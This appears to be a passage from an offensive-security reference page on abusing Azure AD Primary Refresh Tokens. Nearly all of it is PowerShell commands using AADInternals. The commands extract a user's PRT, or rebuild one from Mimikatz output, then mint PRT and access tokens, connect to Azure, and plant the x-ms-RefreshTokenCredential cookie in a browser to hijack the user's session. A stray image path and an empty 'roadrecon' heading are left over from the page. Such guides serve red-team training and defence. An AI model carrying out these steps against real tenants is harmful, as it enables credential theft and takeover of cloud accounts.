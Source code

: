 ### Attack - Using roadrecon

### Attack - Using AADInternals and a leaked PRT

`Get-AADIntUserPRTToken` **gets user’s PRT token** from the Azure AD joined or Hybrid joined computer. Uses `BrowserCore.exe` to get the PRT token.

```bash
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```

Or if you have the values from Mimikatz you can also use AADInternals to generate a token:

```bash
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
$AT = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

# Verify access and connect with Az. You can see account id in mimikatz prt output
Connect-AzAccount -AccessToken $AT -TenantID <tenant-id> -AccountId <acc-id>
```

Go to [https://login.microsoftonline.com](https://login.microsoftonline.com), clear all cookies for login.microsoftonline.com and enter a new cookie.

```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
